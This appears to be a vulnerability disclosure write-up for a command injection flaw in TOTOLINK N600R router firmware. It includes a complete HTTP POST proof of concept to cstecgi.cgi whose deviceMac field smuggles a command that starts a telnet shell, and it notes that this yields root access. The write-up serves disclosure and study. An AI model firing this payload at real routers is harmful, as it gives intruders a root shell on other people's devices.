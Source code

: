 # TOTOlink N600R V5.3c.7159_B20190425 Command injection vulnerability

## Overview

- Manufacturer's website information：http://www.totolink.cn
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## 1. Affected version

![image-20220406182121036](img/image-20220406182121036.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220406182157157](img/image-20220406182157157.png)

The content obtained by the program through the devicemac parameter is passed to V6, and then the content matched by V6 is formatted into v18 through the sprintf function. Finally, v18 is executed through the system function. There is a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V5.3c.7159_B20190425
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 145
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/telnet.asp?timestamp=1647874864
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647874864:2
Connection: close

{
	"topicurl":"setting/setDeviceName",
	"file_exist":"1",
	"num":"1",
	"deviceMac":"';telnetd -l /bin/sh -p 10002;'",
	"deviceName":"zoe"
}
```

The reproduction results are as follows:

![image-20220406182332040](img/image-20220406182332040.png)

![image-20220406182346217](img/image-20220406182346217.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
